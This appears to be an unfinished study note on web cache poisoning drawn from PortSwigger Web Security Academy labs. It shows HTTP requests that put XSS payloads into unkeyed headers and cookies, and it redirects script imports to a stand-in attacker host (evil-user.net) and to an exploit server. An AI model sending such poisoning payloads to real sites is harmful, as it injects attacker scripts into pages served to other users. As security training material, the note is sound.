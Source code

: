 [[cache poisoning]]
## [[XSS]]
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public 
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

`X-Forwarded-Host` header is being used to dynamically generate an Open Graph image URL, which is then reflected in the response. It's also often unkeyed.
#### Poison example:
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

## Unsafe handling of resource imports
```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

## Cookie-handling vulnerabilities
Cookies are not included in the cache key.
Example:
```HTTP
GET / HTTP/2
Host: 0a3a00d8046d91ef80cce42100ef002e.web-security-academy.net
Cookie: fehost=prod-cache-01"}%3balert(1)//; session=QfTJLIM9bSLO6dLu6DjpBGIpdEaMRwEA
```

## Multiple headers
Example:
```http
GET /resources/js/tracking.js HTTP/2
Host: 0aa100d70367a08c80fb535000060064.web-security-academy.net
X-Forwarded-Host: exploit-0a05009b0370a021800b52c9014200a4.exploit-server.net
X-Forwarded-Scheme: http
```
If scheme is http, then redirect to `scheme://host`

## Exploiting responses that expose too much information
#to-be-continued 
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws

